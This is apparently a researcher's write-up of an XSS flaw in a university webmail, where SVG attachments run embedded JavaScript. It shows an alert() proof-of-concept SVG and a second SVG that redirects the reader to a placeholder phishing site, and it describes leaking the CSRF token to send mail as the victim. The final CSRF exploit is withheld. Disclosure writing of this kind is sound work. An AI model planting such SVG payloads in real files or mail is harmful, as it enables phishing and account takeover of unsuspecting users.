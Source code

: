 ## Introduction

I decided to write  a technical write-up about a bug inside the WebMail of "Università degli studi di Milano ".
In this post I will share technical details on the xss vulnerability inside a svg file that could be chained with a csrf. 

## XSS+CSRF with svg

First of all I tried to see if there was any input not sanitized properly to try some xss but nothing, so I tried to see how webmail handled svg files with some js inside, sending svg file from my personal email to my university emails and I managed to find something good.


![unimia2](https://user-images.githubusercontent.com/59454895/113420406-90ae8c80-93c9-11eb-9aaf-f9a88da90b17.PNG)
Now I knew the webmail service could handle svg files , once opened the browser parse the malicious code and we can get  the xss :

![Unimia3](https://user-images.githubusercontent.com/59454895/113420875-64474000-93ca-11eb-862a-23930a055a1c.PNG)

It works becase SVG is not a graphical format, but an XML document describing the elements that make up graphics and its additional interactions with the environment. SVG files can be an interactive document, such as HTML and can change depending on pre-programmed actions.
Just like in HTML we have a DOM tree  which is available from JS scripts. Due to the fact that HTML, JavaScript and SVG work in the same ecosystem it's easy to create an SVG file that performs malicious actions in the area of the tested web application.
Also we can see from the response header that the SVG file was interpreted as svg+xml ( there was no httponly flag).

![Unimia4](https://user-images.githubusercontent.com/59454895/113421637-be94d080-93cb-11eb-998e-4eb4d1bfd566.PNG)


The file had the following code :

```xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
 
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
    <foreignObject class="node" x="46" y="22" width="200" height="300">
		  <body xmlns="http://www.w3.org/1999/xhtml">
			 <style>
				 h1{color: red}
			  </style>
			  <h1>Open me :)</h1>
	    </body>
   </foreignObject>
  <script type="text/javascript">
	  alert('1');
  </script>
</svg>
```
## Attack scenario
It's possible to trick the user into a pishing page since we can make a redirection where we want with some js  , after the the file has been opened  . It can be done with the following code inside the svg file( or we can trick him to put his credentials.)


```xml
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
             window.location.href="https://www.evilsite.com/";

   </script>
</svg>
```
The worst thing is that the token can be leaked into the attacker's server and is no longer sufficient against csrf attacks. With csrf we can for example send an email to a recipient chosen by us (such as a professor) containing an inappropriate text, without the original user noticing it.

![Unimia4](https://user-images.githubusercontent.com/59454895/113429277-8c3da000-93d8-11eb-9fe2-b8d2018a282c.PNG)

I won't publish the final poc with the CSRF in order to avoid problems, but it was very easy to leak the token and execute a good CSRF where an attacker could send an email without the authorization of the owner.

